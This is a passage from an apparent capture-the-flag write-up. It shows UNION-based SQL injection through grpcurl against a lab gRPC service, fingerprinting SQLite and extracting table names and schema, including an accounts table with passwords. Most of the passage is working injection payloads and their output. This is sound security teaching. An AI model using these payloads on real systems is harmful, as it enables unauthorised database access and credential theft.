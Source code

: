 This might not be MySQL. It could be SQLite. I’ll try `sqlite_version()`, and it works:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "3.31.1"

```

#### Get Table Names

PayloadsAllTheThings has a [SQLite Injection page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#string-based---extract-database-structure). I’ll use the query here to get the table names:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select tbl_name from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts"

```

The trick is making sure to nest `"` and `'` properly. It seems this application is only sending back the first one, so I’ll add `group_concat()` to get all of them:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "accounts,messages"

```

#### Table Structures

The query from PayloadsAllTheThings to get the column names works:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL and name =\"messages\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"

```

It’s returning the string that shows how the table was created. I can get both in one query:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n),CREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"

```
